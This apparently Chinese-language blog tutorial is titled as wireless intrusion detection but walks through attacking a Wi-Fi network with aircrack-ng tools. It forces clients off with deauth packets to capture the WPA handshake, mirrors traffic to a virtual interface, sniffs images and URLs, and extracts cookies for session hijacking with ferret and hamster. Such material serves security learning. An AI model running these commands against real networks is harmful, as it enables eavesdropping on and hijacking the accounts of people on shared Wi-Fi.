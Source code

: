 ```yaml
---
title: "wIDS无线入侵检测"
date: 2020-04-27 20:46:37
categories: 无线渗透
tags: Aircrack-ng套件
---
```


##### 一 、原理粗谈

使用 Airtun-NG 将无线热点下的所有流量镜像到一个虚拟接口下，监听此虚拟接口便可嗅探数据包，发现敏感信息。

##### 二 、创建虚拟接口

1. 开启网卡

   `ifconfig wlan0 up`

2. 开启网卡监听模式

   `airmon-ng start wlan0`

   <!--more-->

3. 创建虚拟接口

   `airtun-ng -a B4:C4:FC:65:77:50 -p 88888888 -e test wlan0mon`

   <img src="http://cdn.laohuan.art/Snipaste_2019-09-27_20-58-19.png">

   * -a：bssid
   * -p：wifi密码
   * -e：wifi名字

   由上图知，此时已经创建一个名叫"at0"的虚拟接口。

4. 开启此虚拟接口

   `ifconfig at0 up`

##### 三 、抓取握手包

发送deauth包让客户端断开重连，方便我们抓取到握手包

`aireplay-ng -0 15 -a <bssid> -c <客户端mac地址> <监听模式的网卡>`

![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-00-15.png)

当出现WPA handshake 表示已经抓取到握手包

![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-01-23.png)



##### 四、抓包嗅探

1. 此时所有流量都会被镜像到at0接口，我们对at0接口进行抓包

![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-03-33.png)

可看到此热点下的所有数据包

![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-04-28-1024x277.png)

2. 嗅探图片

   `driftnet -i at0 -a -d /root/图片/`

3. 嗅探URL

   `urlsnarf -i at0`

   ![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-17-11.png)

4. 抓取cookie

   将wireshark抓到的数据包保存后缀为pcap的格式，使用ferret解包

   `ferret -r test.pcap`

   ![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-26-37.png)

   打开hamster，监听在本地的1234端口

   ![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-27-44.png)

   浏览器设置好代理 127.0.0.1:1234

   地址栏输入hamster

   ![](http://cdn.laohuan.art/2020/4/27Snipaste_2019-09-27_21-30-08-1024x489.png)